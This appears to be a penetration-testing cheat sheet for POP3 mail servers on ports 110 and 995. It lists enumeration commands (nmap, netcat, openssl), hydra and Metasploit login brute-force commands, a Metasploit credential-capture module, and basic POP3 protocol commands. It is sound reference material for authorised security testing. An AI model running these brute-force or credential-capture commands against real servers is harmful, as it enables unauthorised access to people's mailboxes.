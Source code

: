 ```yaml
---
description: (TCP 110, 995)
---
```


# ⭕ POP3

## :information\_source: Introduction

#### [Post Office Protocol 3](https://tools.ietf.org/html/rfc1939)

Most used protocol for receiving Emails. a one-way client-server protocol which can download the mails from server and hold them on client side.

TCP port 110 for non-encrypted mail retrieval

TCP port 995 for using SSL/TLS.

## :ballot\_box\_with\_check: Checklist

* [ ] Login brute force
* [ ] Check for POP - NTLM auth
* [ ] Try credential capture
* [ ] use POP3 commands manually
* [ ] Check for CVEs

## Enumeration

```
nmap -sV --script pop3-capabilities
nc -nv <IP> 110
openssl s_client -connect <IP>:995 -crlf -quiet
use auxiliary/scanner/pop3/pop3_version
```

## Login Brute Force

```
nmap -p110 --script pop3-brute <target>
use auxiliary/scanner/pop3/pop3_login
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
```

## POP-NTLM Auth

```
nmap -sV --script pop3-ntlm-info <target>
```

## Capture Authention Credentials

```
use auxiliary/server/capture/pop3
```

### POP3 commands

```
USER Your user name for this mail server
PASS Your password.
QUIT End your session.
STAT Number and total size of all messages
LIST Message# and size of message
RETR message# Retrieve selected message
DELE message# Delete selected message
NOOP No-op. Keeps you connection open.
RSET Reset the mailbox. Undelete deleted messages.
```
